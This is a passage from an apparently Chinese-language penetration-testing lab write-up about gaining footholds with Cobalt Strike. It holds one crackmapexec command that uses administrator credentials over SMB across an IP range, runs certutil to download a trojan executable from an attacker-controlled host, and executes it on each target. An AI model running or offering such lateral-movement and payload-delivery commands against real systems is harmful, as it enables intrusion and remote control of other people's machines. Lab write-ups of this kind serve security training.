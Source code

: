 ![image-20230630100632235](https://s2.loli.net/2023/06/30/jdLFoA9JQZVXahC.png)

#### 上线操作

这里需要先使用cs设置转发上线，并设置一个木马，让目标主机下载，然后在去执行，实现上线操作。这里就不演示如何设置cs的转发上线，直接生成木马吧。

当然我这里是使用反向的，懒得使用正向的再去连接了，可以看是成功上线了两台。

```
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' -x 'cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/2222.exe c:/2222.exe & c:/2222.exe' --local-auth
```

![image-20230630101343127](https://s2.loli.net/2023/06/30/KGiv173HczMYBPd.png)